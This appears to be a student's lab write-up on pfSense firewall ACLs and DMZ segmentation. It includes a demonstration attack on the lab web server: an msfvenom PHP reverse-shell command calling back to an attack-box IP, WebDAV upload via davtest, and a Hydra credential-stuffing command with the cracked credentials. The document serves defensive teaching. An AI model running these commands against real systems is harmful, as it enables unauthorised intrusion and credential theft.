# Configuring Network Segmentation and Security
<h3>Objectives</h3>

- Apply security solutions for infrastructure management
- Implement configuration changes to existing controls to improve security
#
<h3>Lab Set Up</h3>

![image](https://github.com/user-attachments/assets/daf27a39-fb8f-4890-a6ba-640a1bfe1619)

To  connect to the pfSense firewall, I just type in its IP into the browser: http://10.1.0.254
- 10.1.0.254 is this network's default gateway. Usually, the default gateway is a router, in this case, pfSense works as both a router and a firewall, and that is why it's this network's default gateway.
![image](https://github.com/user-attachments/assets/ae1d90aa-045d-49e2-b85b-98e6ca659194)
![image](https://github.com/user-attachments/assets/fe92ec5f-12df-4dd2-bf51-ef06452c75ec)
- This firewall/router is configured with one external and one internal interface. The firewall screens the local network segment from external networks, allowing only traffic matching the access control list (ACL) through.

<h3>Reviewing Firewall ACLs</h3>

I can access the ACL or rules by clicking **Firewall > Rules**
- Here I can see that there are multiple tabs, so there can be separate rules for the the WAN and LAN

![image](https://github.com/user-attachments/assets/cdcaae03-722e-41f8-bdbc-5f0c239e4243)
![image](https://github.com/user-attachments/assets/95711b78-a316-407f-827f-e24c73f9ca42)
- Several types of traffic are permitted into the LAN: ICMP (ping), DNS, HTTP/HTTPS, and SMTP.
- All except the ICMP rule, are forwarding rules meaning that traffic for those ports is directed to a host on the LAN.

Now on the **LAN tab**
![image](https://github.com/user-attachments/assets/4bc00873-6876-4173-a484-fb810bc2e080)
- Based on these rules, there is no egress filtering. Any type of traffic from a host on the LAN is permitted to any endpoint, **unless** a deny rule is placed higher in the ACL.
  - The order of the rules can be changed around since  the firewall prioritizes the rules from top to bottom, it will change how the firewall behaves with certain traffic.
- The **Anti-Lockout Rule** prevents the firewall from locking out an administrator from the web interface.
It's enabled by default and allows traffic from any source within the network to any firewall administration protocol listening on the LAN IP address.

If I now click on **Firewall > NAT**, it shows the hosts that are designated to receive traffic for DNS, HTTP/HTTPS, and SMTP.

![image](https://github.com/user-attachments/assets/be50cdea-d36b-40f9-9f6f-24db262ef564)
![image](https://github.com/user-attachments/assets/d9d7c69c-035e-4fb4-858b-951b4605f90b)
- Since the hosts on this network are not seperated into different segments, if an attacker is able to gain access to the server than they can pivot onto other hosts.

#
<h3>Testing Host Security</h3>

In order to demonstrate how a server may make other hosts on the same segment vulnerable, I will run an attack against the web server.

On a Kali VM, which I'll be using as the attack box (AB), I'll start msfconsole and run the following commands: 

1: msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.2.192 lport=8080 -f raw > /root/get.php
- Creates a reverse shell via PHP code
![image](https://github.com/user-attachments/assets/844f1c13-d830-4f2e-aa5c-0df1d04a3e03)

2: davtest -url http://www.515support.com/webdav
- I'll leverage the server’s webdav environment to upload malicious code
![image](https://github.com/user-attachments/assets/4e550bbe-86db-4537-b21d-61571f1a6d22)

This environment is password-protected so it failed to connect, however, I'll use the password cracker THC Hydra or Hydra and a wordlist containing possible usernames and password variations, and perform a credential-stuffing attack. 

Command: hydra -L /root/Downloads/users-515support.txt -P /root/Downloads/pwd-515support.txt www.515support.com http-get /webdav

![image](https://github.com/user-attachments/assets/9c1676b0-ecc5-4e98-906d-65d3f4719636)
- Hydra was able to crack the user/password combo of dev:Pa$$w0rd

Now I can try connecting again using these credentials
![image](https://github.com/user-attachments/assets/bc809845-89f7-4d4f-aa30-1463449c51fe)

Now that I'm connected I can start the listener

![image](https://github.com/user-attachments/assets/650491ad-54a3-4c62-82df-f7b303848371)

On a second terminal window, I'll run the following command to trigger the script and start the reverse shell
![image](https://github.com/user-attachments/assets/cb510199-1bdb-4420-a7b0-c091133b3d16)

Back on the terminal running msfconsole, the meterpreter shell was successful, and I now  have access to the server's command line.
![image](https://github.com/user-attachments/assets/2f47d67f-5dea-4131-b89a-b1c4909f184f)

Leaving the session in the background to try creating a hash dump, results in failure because I dont have root access.
![image](https://github.com/user-attachments/assets/bf494440-2074-445a-a097-4a89287538b6)

Trying a different method also yields no access, however, there is the potential for intrusion against other hosts on the same network as the server.
![image](https://github.com/user-attachments/assets/89437583-ba17-4b1d-a3e8-df2f3cf1f37f)

![image](https://github.com/user-attachments/assets/2f825b5b-1164-43e3-8993-94854a90d798)
![image](https://github.com/user-attachments/assets/51ce190a-304f-4179-82d2-ae5a05b05dbd)

The reason that it's possible to gain access to another host on the network is because of the firewall rules. There are no rules against certain oubount traffic or connection between the server and other hosts on the same network. 
If the firewall rules were filtering connections between this server and other hosts, and blocking unauthorized outbound connections, then this would not be possible.
#
<h3>Configuring Segmentation</h3>

Now I will configure the firewall so that the web server is isolated in a demilitarized zone (DMZ) segment, separate from other hosts.

In Hyper-V Manager, Virtual Switch Manager > Private > Create Virtual Switch and name the switch 'vDMZ'
![image](https://github.com/user-attachments/assets/a1add197-8bb8-4f8e-ad3c-23bcfca3e541)

Now in the settings menu for UTM1, I'll set the vDMZ switch for the hn2 adapter

![image](https://github.com/user-attachments/assets/42798972-644d-4d35-88bd-a82e55b927a2)
![image](https://github.com/user-attachments/assets/58165c35-a154-4592-b473-bd97cb7a873b)

And I'll do the same for LX1, on the eth0 adapter

![image](https://github.com/user-attachments/assets/9c084d65-9284-4079-93d0-a980177c841c)

Back on pfSense, clicking on **Interfaces > Assignments**
![image](https://github.com/user-attachments/assets/edda3a98-8f04-4080-8122-a25dbbb2bcfd)
And I added OPT1, which is UTM1's interface connected to the virtual switch (vDMZ)
![image](https://github.com/user-attachments/assets/b95b2700-816d-4e64-b19c-9de6bdeab33d)

Clicking on **Interfaces > OPT1**, I enabled the interface and set the IPv4 address as 10.1.254.254 /24 and to be static, then saved the configuration at the bottom of the menu

![image](https://github.com/user-attachments/assets/b0d2478e-d4d2-47f2-8fa0-b935ff3d8794)
![image](https://github.com/user-attachments/assets/83159cc6-a7b6-4dae-bc46-dd2506a4015c)

Clicking on **Firewall > NAT**, I'm going to edit the HTTP and HTTPS forwarding rules to redirect traffic to the server @ 10.1.254.10 

![image](https://github.com/user-attachments/assets/f0c07ae9-a6b1-48f0-9eb4-e56e9e42e891)
![image](https://github.com/user-attachments/assets/c88724ec-d65e-4e3b-a871-59872f688ff6)
![image](https://github.com/user-attachments/assets/7a3724ff-dd69-4889-9f1c-c5c8d8409e74)
![image](https://github.com/user-attachments/assets/33f1d600-1a2b-4405-b482-1c9701144195)

The I went to **Status > System  Logs Settings** and enabled 'log firewall default blocks'
![image](https://github.com/user-attachments/assets/2e9eebf6-09e8-40fe-a4d9-cc6ec83b4ccf)

The last thing I need to do is add the server to the DMZ subnet, by reconfiguring it's IP settings
![image](https://github.com/user-attachments/assets/3e2ca707-4868-490f-8e56-4ff9f44dfedc)

Now that I changed the IP to the server the connection to the attack box has died, so there is no current reverse shell
![image](https://github.com/user-attachments/assets/5ebf2d36-33d4-4e0a-bbb6-203b72362e80)
#
<h3>Testing Segmentation</h3>

If I try to establish another reverse shell (same way as before, starting the listener, and using the curl command to create the reverse shell), it will not work because the ACL rules are configured to apply only to incoming new connections on each interface, so the default block on OPT1 stops the web server from initiating new connections. The ACL rules only allow connections started by external hosts rather than a connection started by the server to an external host (reverse shell).

Checking the firewall logs (**Status > System Logs > Firewall**), we see just that. Any traffic from the server (10.1.254.10) to the attack box (192.168.2.192), is blocked. But traffic from the attack box to the server is not.
![image](https://github.com/user-attachments/assets/45e04c13-f741-4372-a9c5-9cf2299d1dce)
![image](https://github.com/user-attachments/assets/0bc78382-f4c1-4bb0-852f-7cf51cdec408)

This is actually a hidden, default deny rule, that blocks any other traffic arriving on the WAN interface from an external network.
![image](https://github.com/user-attachments/assets/96927429-a1ee-40fd-b75b-77d53edc1318)

Now the server has been successfully isolated from the other hosts on the network.
#
<h3>Challenge</h3>

**Configure an ACL that blocks hosts on the vLOCAL switch/LAN net from accessing anything other than SSH and HTTP/HTTPS on the vDMZ switch/OPT1 address.**

These are the four rules I made to make this possible. Each one either allows/denies traffic specifically from the LAN net, to the OPT1 address. The deny rule denies all traffic including SSH, HTTP/HTTPS but I put it at the bottom of the list so that it will no trigger before the other allow rules, that way SSH, and HTTP/HTTPS traffic can still pass through.
![image](https://github.com/user-attachments/assets/8a979a18-06e5-430e-8151-61a98d0a2d0a)

To test whether on not the ACL rules work I first tried accessing http://www.515web.net and http://10.1.254.10 from a VM that was on the LAN net, and both were successfull.
![image](https://github.com/user-attachments/assets/58fe5c65-ab81-4ef9-9701-b570d8115f83)
![image](https://github.com/user-attachments/assets/d93681d5-aef6-437d-af7c-c267d8aa5b5b)

Lastly, I switched the Linux VM (attack box), to the LAN net and used nmap to test ports 22, 53, 80, and 443, and since it worked correctly DNS port 53 was shown as filtered and the rest were open.

![image](https://github.com/user-attachments/assets/3b23c180-fd8e-43a7-957d-c0beb5bb080d)





